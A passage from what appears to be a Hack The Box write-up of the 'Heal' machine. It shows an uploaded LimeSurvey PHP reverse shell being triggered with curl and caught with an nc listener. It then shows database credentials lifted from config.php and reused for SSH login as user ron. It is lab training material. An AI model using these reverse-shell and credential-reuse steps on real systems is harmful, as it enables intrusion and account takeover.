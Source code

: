 The other side:

```zsh
❯ curl http://take-survey.heal.htb/upload/plugins/rev/rev.php
```

And we get the shell of `www-data`.

```zsh
❯ rlwrap nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.11.46] 40128
Linux heal 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 06:31:02 up 14:49,  1 user,  load average: 0.04, 0.03, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ron      pts/3    10.10.14.66      04:51   29.00s  0.52s  0.05s /bin/bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

## <span style="color: red; font-weight: bold;">Shell as root</span>

### <span style="color: #3498eb;">Shell as </span>`ron`

Digging around in the `Lime Survey` directory for a while, I found this in `/var/www/limesurvey/application/config/config.php`

```php
return array(
        'components' => array(
                'db' => array(
                        'connectionString' => 'pgsql:host=localhost;port=5432;user=db_user;password=AdmiDi0_pA$$w0rd;dbname=survey;',
                        'emulatePrepare' => true,
                        'username' => 'db_user',
                        'password' => 'AdmiDi0_pA$$w0rd',
                        'charset' => 'utf8',
                        'tablePrefix' => 'lime_',
                ),
```

```zsh
❯ ssh ron@heal.htb
ron@heal.htb's password: AdmiDi0_pA$$w0rd

ron@heal:~$ id
uid=1001(ron) gid=1001(ron) groups=1001(ron)
```

### <span style="color: #3498eb;">TCP 8500 </span>
